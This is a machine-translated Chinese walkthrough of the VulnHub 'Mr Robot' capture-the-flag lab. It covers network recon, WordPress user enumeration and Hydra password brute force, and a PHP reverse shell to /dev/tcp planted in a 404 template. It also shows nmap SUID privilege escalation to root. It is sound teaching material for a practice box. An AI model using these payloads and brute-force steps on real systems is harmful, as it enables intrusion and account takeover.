










# 机器人先生

> 原文：<https://medium.com/geekculture/vulnhub-mr-robot-35eac3078d5c?source=collection_archive---------2----------------------->


Mr Robot — VulnHub Header

亲爱的朋友，感谢你来到[哈克斯](https://haxez.org)。我喜欢《机器人先生》,这可能是我最喜欢的节目之一(和《X 档案》和《豪斯医生》一样)。这不仅是一部现实的黑客剧，也是一部心理惊悚片，有一些疯狂的时刻。所以，今天我们要引导我们内心的黑客行动主义者，并与 fsociety 联合起来，打倒邪恶集团这个全球企业集团。没错，我们要黑进莱昂·约翰逊在 VulnHub 上创造的机器人先生盒子。

# 机器人先生成立了

为了破解这个盒子，你首先需要从 [VulnHub](https://www.vulnhub.com/entry/mr-robot-1,151/) 下载它。下载完产品后，您需要将其导入到虚拟机管理程序软件中。我将使用 VirtualBox 来完成这项工作，操作非常简单，只需点击“文件>导入设备”,然后导航到您下载的文件。这可能需要几分钟，但一旦完成，启动你的黑客虚拟机。



VirtualBox Mr Robot Set Up

# VirtualBox 网络设置

首先，您需要检查您的主机网络管理器设置。这可以在 VirtualBox 中通过“文件>主机网络管理器”来完成。查看一下您的网络设置，记下 IPv4 地址。



VirtualBox Network Set Up

获得主机网络地址后，检查 DHCP 是否已启用。然后，进入你的黑客机器和你的目标机器的网络设置。检查两台机器是否都将适配器 1 设置为仅主机，以及适配器的名称是否相同。如果你愿意，你可以在 Kali 上启用第二个适配器，并将其设置为 NAT，这样你仍然可以访问互联网。



VirtualBox Host Network Set Up

# 寻找机器人先生

希望找到机器人先生不会太难，因为我们已经正确配置了网络设置。首先，你可以使用名为 netdiscover 的工具，它可以被动地检测在线主机，也可以通过发送 ARP 请求来搜索它们。这可能很吵，但我认为这是值得一提的。我们知道仅主机接口的 IP 地址是 192.168.56.0，所以让 netdiscover 来探索一下这个范围。

# 网络发现

```
sudo netdiscover -r 192.168.56.0/24
Currently scanning: Finished!   |   Screen View: Unique Hosts                                                                                                                                                                                                                                                       3 Captured ARP Req/Rep packets, from 3 hosts.   Total size: 180                                                                                                                             _____________________________________________________________________________
IP            At MAC Address     Count     Len  MAC Vendor / Hostname      
-----------------------------------------------------------------------------
192.168.56.1    0a:00:27:00:00:0b      1      60  Unknown vendor                                                                                                                           
192.168.56.100  08:00:27:71:14:50      1      60  PCS Systemtechnik GmbH                                                                                                                   192.168.56.101  08:00:27:db:36:79      1      60  PCS Systemtechnik GmbH
```

如您所见，有三个主机响应。一个是 IP 地址为 192.168.56.1 的默认网关，一个是我们自己的机器，另一个是目标机器。我们一会儿就要弄清楚哪个是哪个。

# Ping 扫描

我们查找主机的第二种方法是对网络执行 ping 扫描。从下面的终端输出可以看出，它找到了相同的主机。所以我们现在知道目标主机是 192.168.56.100 或 192.168..56.101.让我们执行一些侦察来找出哪个是哪个。

```
┌──(kali㉿kali)-[~]
└─$ sudo nmap -sP 192.168.56.0/24
[sudo] password for kali: 
Starting Nmap 7.92 ( https://nmap.org ) at 2022-04-30 07:39 EDT
Nmap scan report for 192.168.56.1
Host is up (0.00015s latency).
MAC Address: 0A:00:27:00:00:0B (Unknown)
Nmap scan report for 192.168.56.100
Host is up (0.00036s latency).
MAC Address: 08:00:27:71:14:50 (Oracle VirtualBox virtual NIC)
Nmap scan report for 192.168.56.101
Host is up (0.00038s latency).
MAC Address: 08:00:27:DB:36:79 (Oracle VirtualBox virtual NIC)
Nmap done: 256 IP addresses (4 hosts up) scanned in 28.02 seconds
```

# 机器人侦察先生

为了找出我们的目标是哪一个，我们可以对两个 IP 地址进行端口扫描。监听 IP 地址的服务应该会告诉我们需要攻击哪一个。我在下面的扫描中所做的就是对所有端口运行 TCP 扫描。这通常是相当快，应该给我们所需要的一切。我们可以做更复杂的扫描，但是现在，让我们弄清楚哪个盒子是哪个。

```
┌──(kali㉿kali)-[/media/sf_OneDrive/VulnHub/MrRobot/Tooloutput]
└─$ sudo nmap -sT -p0- 192.168.56.100 
Starting Nmap 7.92 ( https://nmap.org ) at 2022-04-30 08:00 EDT
Nmap scan report for 192.168.56.100
Host is up (0.00012s latency).
All 65536 scanned ports on 192.168.56.100 are in ignored states.
Not shown: 65536 filtered tcp ports (proto-unreach)
MAC Address: 08:00:27:71:14:50 (Oracle VirtualBox virtual NIC)
Nmap done: 1 IP address (1 host up) scanned in 15.35 seconds
```

这里没什么事情。这可能是我的机器，因为不会有很多服务运行。

```
┌──(kali㉿kali)-[/media/sf_OneDrive/VulnHub/MrRobot/Tooloutput]
└─$ sudo nmap -sT -p0- 192.168.56.101
Starting Nmap 7.92 ( https://nmap.org ) at 2022-04-30 08:01 EDT
Nmap scan report for 192.168.56.101
Host is up (0.0014s latency).
Not shown: 65533 filtered tcp ports (no-response)
PORT    STATE  SERVICE
22/tcp  closed ssh
80/tcp  open   http
443/tcp open   https
MAC Address: 08:00:27:DB:36:79 (Oracle VirtualBox virtual NIC)
Nmap done: 1 IP address (1 host up) scanned in 125.66 seconds
```

因为我们有一个关闭的 SSH 端口和一个监听端口 80 和 443 的 web 服务器。那肯定不是我的机器，很可能是我们的目标。

# 探索 Web 服务器

我们知道端口 80 和 443 是打开的，所以让我们在浏览器中检查一下。只需获取 IP 地址，并在浏览器中弹出，以 HTTP://或 HTTPS://开头。该网站模拟了一个带有许多选项的 Linux 终端。浏览这些选项似乎并没有给我们带来太多，但是对于沉浸感来说还是很酷的。我建议浏览一下。



Mr Robot Web Server

# 破坏目录

由于该网站没有给我们提供太多可以用来进步的东西，现在是时候强行打开它的目录和文件，看看我们能找到什么有趣的东西。有很多工具可以做到这一点，但我将保持简单，使用 dirb。dirb 的输出非常重要，所以我在这里只包括一小部分。

```
┌──(kali㉿kali)-[/media/sf_OneDrive/VulnHub/MrRobot/Tooloutput]
└─$ sudo dirb https://192.168.56.101                     
-----------------
DIRB v2.22    
By The Dark Raver
-----------------
START_TIME: Sat Apr 30 08:23:20 2022
URL_BASE: https://192.168.56.101/
WORDLIST_FILES: /usr/share/dirb/wordlists/common.txt
-----------------
GENERATED WORDS: 4612                                                          
---- Scanning URL: https://192.168.56.101/ ----
+ https://192.168.56.101/robots.txt (CODE:200|SIZE:41)
==> DIRECTORY: https://192.168.56.101/0/                                                                                                                                                                                                                                                                                                                                            ==> DIRECTORY: https://192.168.56.101/admin/                                                                                                                                                                                                                                                                                                                                      ==> DIRECTORY: https://192.168.56.101/audio/                                                                                                                                                                                                                                                                                                                                         ==> DIRECTORY: https://192.168.56.101/blog/                                                                                                                                                                                                                                                                                                                                           ==> DIRECTORY: https://192.168.56.101/css/                                                                                                                                                                                                                                                                                                                                             ==> DIRECTORY: https://192.168.56.101/feed/
==> DIRECTORY: https://192.168.56.101/wp-admin/
==> DIRECTORY: [https://192.168.56.101/wp-admin/](https://192.168.56.101/wp-admin/)
```

# 机器人先生. txt

从上面的输出可以看出，我们有许多有趣的文件和目录。我要查看的第一个文件是 robots.txt 文件。本质上，robots.txt 文件是一个告诉搜索引擎不要索引什么的文件。如果你的网站上有登录页面，那么你应该将它们包含在 robots.txt 文件中，以确保它们不会被搜索引擎索引。在[http://192 . 168 . 56 . 101/robots . txt](http://192.168.56.101/robots.txt)来看看吧

```
User-agent: *
fsocity.dic
key-1-of-3.txt
```

# 第一个键

看起来我们有了第一面旗子或钥匙。导航到[http://192 . 168 . 56 . 101/key-1-of-3 . txt](http://192.168.56.101/key-1-of-3.txt)文件，您应该会收到以下密钥 073403 c8 a 58 a1 f 80d 943455 FB 30724 b 9。我们似乎还有一个字典文件，也许是一个单词表，我们可以用它来尝试访问机器。让我们来看看[http://192 . 168 . 56 . 101/fsocity . DIC .](http://192.168.56.101/fsocity.dic.)文件会自动下载，但你可以在下载后再下载。



Mr Robot Wordlist

# 管理区

我的怀疑是正确的，这是一个很大的单词表。我们可以试着用它或者网站的管理区来暴力破解 SSH。既然我们在网站上找到了它，我想我们应该从那里开始。dirb 找到的第一个管理区域是[https://192 . 168 . 56 . 101/admin](https://192.168.56.101/admin)，但是访问它有一个持续的重定向循环。然而，它也发现了一个 WordPress 管理区。



Mr Robot Wordpress Login

# 枚举有效用户

有趣的是，当试图用 admin: admin 登录门户时，我被告知我使用了一个无效的用户名。这是 web 应用程序渗透测试中枚举用户的常用策略。如果提交不正确的用户名和带有不正确密码的正确用户名的错误消息不同，那么我们可以枚举正确的用户。首先，让我们整理单词列表，使其只包含唯一的条目。

```
┌──(kali㉿kali)-[/media/sf_OneDrive/VulnHub/MrRobot/Tooloutput]
└─$ sort /home/kali/Downloads/fsocity.dic | uniq > robodic.txt
```

# 打嗝组曲

有许多不同的工具能够暴力破解 web 应用程序，而 Burp Suite 对于这项任务来说可能有点大材小用。然而，我知道如何使用打嗝，并发现它真的很直观，所以我会坚持我所知道的。打开代理后，我将捕获一个登录请求并发送给入侵者。在那里，我将清除现有的头寸，并将我自己的头寸添加到 log 参数中。



Burp Suite

然后，我会将 fsociety.dic 文件加载到有效负载中，并在几分钟内开始攻击。我们可以看到，用户 Elliot 的响应长度与其他响应不同。这表明被发回的错误消息与其他用户的不同。



Burp Suite Intruder

很快，我们可以看到用户 Elliot 的响应长度与其他响应不同。这表明被发回的错误消息与其他用户的不同。

# 水螅

错误消息是不同的，如您所见，它指出用户 Elliot 的密码不正确。现在我们知道了用户名，是时候找到我们的密码了，为此，我们将使用另一个名为 Hydra 的工具。

```
hydra -vV -l elliot -P robotdic.txt 192.168.56.101 http-post-form '/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log+In:F=is incorrect'
[ATTEMPT] target 192.168.56.101 - login "elliot" - pass "even" - 5656 of 11452 [child 9] 
[ATTEMPT] target 192.168.56.101 - login "elliot" - pass "Even" - 5657 of 11452 [child 7] 
[ATTEMPT] target 192.168.56.101 - login "elliot" - pass "evening" - 5658 of 11452 [child 11] 
[ATTEMPT] target 192.168.56.101 - login "elliot" - pass "event" - 5659 of 11452 [child 12] 
[ATTEMPT] target 192.168.56.101 - login "elliot" - pass "events" - 5660 of 11452 [child 5] 
[80][http-post-form] host: 192.168.56.101   login: elliot   password: ER28-0652
STATUS] attack finished for 192.168.56.101 (waiting for children to complete tests)
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2022-04-30 09:58:12
```

答对了，我们从 fsociety.dic 文件中找到了他的密码。

# 弹壳

现在我们需要打开盒子，最简单的方法是在 WordPress 模板中添加一些代码。最简单的可能是 404 模板，因为您可以调用任何不存在的页面来执行代码。用你自己的 IP 地址修改下面的代码，并把它添加到 WordPress 404 模板的顶部。

```
<?php
exec("/bin/bash -c 'bash -i >& /dev/tcp/192.168.56.102/443 0>&1'");
?>
```



Wordpress 404 Template

现在，在您的终端中，使用 NetCat 在端口 443 上创建一个监听器。

```
┌──(kali㉿kali)-[/media/sf_OneDrive/VulnHub/MrRobot/Tooloutput]
└─$ sudo nc -lvp 443       
listening on [any] 443 ...
connect to [192.168.56.102] from (UNKNOWN) [192.168.56.101] 37398
daemon@linux:/opt/bitnami/apps/wordpress/htdocs$ ls
```

# 横向运动

在主目录中，我们可以看到有一个名为“机器人”的用户。此外，在这个用户的主目录中有两个文件。一个是第二个密钥，另一个似乎是密码 md5。不幸的是，由于权限问题，我们无法读取密钥文件，但我们可以读取密码文件。

```
daemon@linux:/opt/bitnami/apps/wordpress/htdocs$ ls -laSh /home/robot
ls -laSh /home/robot
total 16K
drwxr-xr-x 2 root  root  4.0K Nov 13  2015 .
drwxr-xr-x 3 root  root  4.0K Nov 13  2015 ..
-rw-r--r-- 1 robot robot   39 Nov 13  2015 password.raw-md5
-r-------- 1 robot robot   33 Nov 13  2015 key-2-of-3.txt
```

如果我们找到这个文件，我们可以看到它是用户机器人的 md5 散列。如果我们破解了这个散列，那么我们应该能够切换到机器人用户。

```
daemon@linux:/opt/bitnami/apps/wordpress/htdocs$ cat /home/robot/password.raw-md5
<pps/wordpress/htdocs$ cat /home/robot/password.raw-md5                     
robot:c3fcd3d76192e4007dfb496cca67e13b
```

现在，我们可以使用 Hashcat 或开膛手约翰来破解这个散列。然而，它可能已经被破解了，所以让我们看看 crackstation.net。确实哈希已经被破解了，密码是 abcdefghijklmnopqrstuvwxyz…对。



Mr Robot Crackstation

# TTY 壳牌公司

在我们当前的 shell 中尝试切换到“robot”会产生一个错误，说我们需要在终端中。为了解决这个问题，我们需要生成一个 TTY 外壳。

```
daemon@linux:/opt/bitnami/apps/wordpress/htdocs$ python -c 'import pty; pty.spawn("/bin/sh")'        
$ su robot
Password: abcdefghijklmnopqrstuvwxyz
```

现在我们已经切换到“机器人”,我们可以在我们的主目录中捕获密钥。

```
robot@linux:/opt/bitnami/apps/wordpress/htdocs$ cat /home/robot/key-2-of-3.txt           822c73956184f694993bede3eb39f959
```

# 权限提升

为了将我们的特权提升到 root，我们需要找到一个可以提升我们的程序。由于文件设置了 suid 位，这通常是可能的。您可以通过运行以下命令来查找设置了 suid 位的文件。

```
robot@linux:/opt/bitnami/apps/wordpress/htdocs$ find / -perm /4000 -type f 2>/tmp/2                 
/bin/ping
/bin/umount
/bin/mount
/bin/ping6
/bin/su
/usr/bin/passwd
/usr/bin/newgrp
/usr/bin/chsh
/usr/bin/chfn
/usr/bin/gpasswd
/usr/bin/sudo
/usr/local/bin/nmapPrivilege Escalation
```

我们可以从输出中看到，其中一个文件是 Nmap，旧版本的 Nmap 有一个交互模式，您可以使用该模式切换到 root。正如您从下面的工具输出中看到的，我们可以使用 Nmap 交互模式转义到 root 并捕获最终密钥。

```
robot@linux:~$ nmap –interactive
nmap –interactive
Starting nmap V. 3.81 ( http://www.insecure.org/nmap/ )
Welcome to Interactive Mode -- press h <enter> for help
nmap> !sh
!sh
# whoami
Whoami
root
# ls
Ls
key-2-of-3.txt  password.raw-md5
# cd /root
cd /root
# ls
Ls
firstboot_done  key-3-of-3.txt
# cat key-3-of-3.txt
cat key-3-of-3.txt
04787ddef27c3dee1ee161b21670b4e4
```